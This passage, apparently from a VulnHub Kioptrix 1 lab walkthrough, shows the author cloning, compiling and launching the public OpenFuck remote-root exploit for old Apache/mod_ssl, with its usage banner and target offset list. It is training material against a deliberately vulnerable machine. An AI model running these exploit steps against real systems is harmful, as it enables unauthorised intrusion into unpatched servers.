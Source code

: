 ### Manual Method

We can see that there is a tons of exploit available, but we can see that there is no critical CVE. we got version from target system, now a days all exploits available on git hub We can  refer GitHub weather any exploits available for this version 

{{< img src="/images/vulnhub/kioptrix1/2.png" alt="image alt" width="800px" height="500px" position="center" >}}

```bash
┌─[atom@atom-vmwarevirtualplatform]─[~/Documents/vulnhub]
└──╼ $git clone https://github.com/heltonWernik/OpenFuck.git
Cloning into 'OpenFuck'...
remote: Enumerating objects: 26, done.
remote: Total 26 (delta 0), reused 0 (delta 0), pack-reused 26
Receiving objects: 100% (26/26), 14.14 KiB | 761.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
┌─[atom@atom-vmwarevirtualplatform]─[~/Documents/vulnhub]
└──╼ $sudo apt-get install libssl-dev
[sudo] password for atom: 
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
libssl-dev is already the newest version (1.1.1n-0+deb11u2).
0 upgraded, 0 newly installed, 0 to remove and 61 not upgraded

─[✗]─[atom@atom-vmwarevirtualplatform]─[~/Documents/vulnhub/kioptrix1/OpenFuck]
└──╼ $gcc -o open OpenFuck.c -lcrypto
┌─[atom@atom-vmwarevirtualplatform]─[~/Documents/vulnhub/kioptrix1/OpenFuck]
└──╼ $chmod +x open
```

We have to find the ```offset``` value for target machine, we know our target machine is ```Red Hat machine``` , we can identify by booting logs and we already know the apache server version of target machine is ```apache 1.3.20```  if we run our payload we can see that different types of  ```offset``` based on different platform and OS 

```bash
┌─[atom@atom-vmwarevirtualplatform]─[~/Documents/vulnhub/kioptrix1/OpenFuck]
└──╼ $./open 

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./open target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
	0x00 - Caldera OpenLinux (apache-1.3.26)
	0x01 - Cobalt Sun 6.0 (apache-1.3.12)
	0x02 - Cobalt Sun 6.0 (apache-1.3.20)
	0x03 - Cobalt Sun x (apache-1.3.26)
	0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)
	0x05 - Conectiva 4 (apache-1.3.6)
```